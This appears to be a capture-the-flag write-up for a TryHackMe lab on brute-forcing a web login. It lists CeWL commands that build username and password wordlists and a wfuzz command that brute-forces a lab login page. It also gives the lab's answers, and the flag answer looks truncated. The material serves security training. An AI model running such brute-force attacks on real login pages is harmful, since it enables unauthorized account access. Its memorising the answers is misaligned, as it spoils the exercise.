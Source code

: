 # Advent of Cyber 2023

-------------------------------------

Day 4: Brute Force - Baby, It's CeWLd outside

- What is the correct username and password combination? Format username:password
	- `isaias:Happiness`

- What is the flag?
	- `THM`

#### Steps:

1. Create a password list and username that is based on the words from the website. Using cewl

```
cewl -d 2 -m 5 -w passwords.txt http://10.10.44.85 --with-numbers
cewl -d 0 -m 5 -w usernames.txt http://10.10.44.85/team.php --lowercase
```

2. Use the wfuzz to brute force through the website /login.php. Using the password and username list. 

```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.44.85/login.php -d "username=FUZZ&password=FUZ2Z"
```

<details>
In the command above:

-z file,usernames.txt loads the usernames list.
-z file,passwords.txt uses the password list generated by CeWL.
--hs "Please enter the correct credentials" hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
-u specifies the target URL.
-d "username=FUZZ&password=FUZ2Z" provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.
</details>

3. Use the crendentials from the bruteforce information. 

```
http://10.10.44.85/login.php
```